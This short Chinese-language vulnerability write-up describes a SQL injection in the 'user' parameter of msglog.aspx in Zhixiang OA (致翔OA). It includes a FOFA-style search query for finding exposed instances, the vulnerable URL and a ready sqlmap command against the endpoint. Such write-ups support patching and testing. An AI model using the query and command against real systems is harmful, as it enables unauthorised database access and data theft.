

# 致翔OA msglog.aspx SQL注入漏洞

## 漏洞描述

致翔OA msglog.aspx文件存在SQL注入漏洞，攻击者通过漏洞可获取敏感信息

## 漏洞影响

```
致翔OA
```

## 网络测绘

```
app="致翔软件-致翔OA"
```

## 漏洞复现

产品页面


存在漏洞的文件为 `msglog.aspx`,涉及注入的参数为 user

```
/mainpage/msglog.aspx?user=1
```

SQLMap跑一下

```
sqlmap -u http://127.0.0.1/mainpage/msglog.aspx?user=1 -p user --batch
```

